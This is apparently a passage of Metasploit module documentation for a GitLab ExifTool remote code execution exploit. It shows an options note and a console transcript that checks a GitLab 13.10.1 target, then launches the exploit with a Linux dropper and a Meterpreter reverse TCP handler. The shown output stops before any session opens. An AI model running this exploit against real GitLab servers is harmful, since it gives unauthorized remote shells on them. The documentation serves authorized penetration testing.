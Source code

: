 Specifies GitLab's base URI. Although an unpopular configuration, GitLab does support use
of a [relative URL](https://docs.gitlab.com/omnibus/settings/configuration.html#configuring-a-relative-url-for-gitlab).

## Scenarios

### GitLab 13.10.1 on Ubuntu 20.04.2 x64. Get Meterpreter session.

```
msf6 > use exploit/multi/http/gitlab_exif_rce
[*] Using configured payload linux/x86/meterpreter_reverse_tcp
msf6 exploit(multi/http/gitlab_exif_rce) > set RHOST 10.0.0.7
RHOST => 10.0.0.7
msf6 exploit(multi/http/gitlab_exif_rce) > check

[*] Uploading c6hn3KFIMqv.jpg to /D3iMLq
[+] 10.0.0.7:80 - The target is vulnerable. The error response indicates ExifTool was executed.
msf6 exploit(multi/http/gitlab_exif_rce) > options

Module options (exploit/multi/http/gitlab_exif_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.0.0.7         yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      80               yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       Base path
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (linux/x86/meterpreter_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux Dropper


msf6 exploit(multi/http/gitlab_exif_rce) > set LHOST 10.0.0.9
LHOST => 10.0.0.9
msf6 exploit(multi/http/gitlab_exif_rce) > exploit

[*] Started reverse TCP handler on 10.0.0.9:4444 
[*] Executing Linux Dropper for linux/x86/meterpreter_reverse_tcp
[*] Using URL: http://0.0.0.0:8080/agqzWrd49OBxPkC
[*] Local IP: http://10.0.0.9:8080/agqzWrd49OBxPkC
```